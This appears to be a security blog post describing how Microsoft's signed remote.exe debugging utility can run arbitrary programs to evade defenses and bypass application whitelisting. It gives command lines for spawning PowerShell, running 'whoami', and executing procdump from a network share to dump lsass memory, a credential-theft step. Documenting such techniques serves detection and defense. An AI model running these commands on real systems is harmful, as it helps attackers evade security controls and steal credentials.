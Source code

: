 ```yaml
---
title: Execution and AWL Bypass Using LOLBin Remote.exe
date: "2021-01-05"
---
```


Masquerading execution behind the Microsoft signed binary remote.exe<!-- end-->.

If you're not familiar with the term LOLBins by now, you'd better catch up to speed because that's the trend for the foreseeable future. Briefly explained, "LOLBins" or "Living Off the Land Binaries" are non-malicious binaries that can be used in an unintended way to aid attackers in evading defenses. A more thorough explanation can be found <a href="https://blog.teamascend.com/lolbins">here</a>.

# Remote.exe

Remote.exe is a stand-alone executable that comes with the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/">debugging tools for Windows</a>. Microsoft's definition of remote.exe is as follows:

>The remote.exe utility is a versatile server/client tool that allows you to run command-line programs on remote computers.
>This utility has a large number of uses. For example, when you are developing software, you can compile code with the processor and resources of a remote computer while you perform other tasks on your computer.

It's a pretty impressive tool, let's use it for our purposes now.

# Using Remote.exe

### To execute a file or command:

    remote.exe /s "file.exe" anything

### Spawn PowerShell.exe:
    
    remote.exe /s "powershell.exe" d0x

![Powershell-Spawn-Cmd](./powershell-spawn-cmd.png)

![Powershell-Spawn](./powershell-spawn.png)

### Execute a single command:

    remote.exe /s "powerShell.exe -c whoami" mrd0x

![Whoami](./whoami.png)

### Execute a remote file:

    remote.exe /s "\\10.0.0.187\proc\procdump64.exe -ma lsass.exe lsass.dmp" anything

![Procdump](./procdump.png)

# Use Cases

* Masquerading execution under a Microsoft signed binary
* AWL Bypass